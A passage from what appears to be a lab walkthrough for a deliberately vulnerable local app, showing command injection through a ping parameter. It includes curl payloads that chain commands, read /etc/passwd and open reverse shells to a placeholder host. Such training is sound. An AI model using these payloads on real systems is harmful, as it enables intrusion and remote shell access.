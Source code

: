 ```bash
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; whoami"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 && whoami"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 | whoami"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 || whoami"
```

**Windows alternatives:**
```bash
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 & whoami"
```

**Explanation:** Chain additional commands using various command separators to execute arbitrary commands.

#### Step 3: Command Substitution
**Objective:** Use command substitution to execute commands

```bash
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 \`whoami\`"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 \$(whoami)"
```

**Explanation:** Use backticks or $() syntax for command substitution to execute nested commands.

#### Step 4: File System Access
**Objective:** Access sensitive files on the system

```bash
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; cat /etc/passwd"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; ls -la /"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; find / -name \"*.conf\" 2>/dev/null"
```

**Windows alternatives:**
```bash
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 & type C:\\windows\\system32\\drivers\\etc\\hosts"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1 & dir C:\\"
```

**Explanation:** Read sensitive system files to gather information about the target system.

#### Step 5: Reverse Shell
**Objective:** Establish a reverse shell connection

**Setup listener on your machine:**
```bash
nc -lvp 4444
```

**Execute reverse shell:**
```bash
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; nc -e /bin/sh YOUR_IP 4444"
curl -X POST "http://localhost:5000/api/vuln/command" -d "ping=127.0.0.1; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"YOUR_IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'"
```
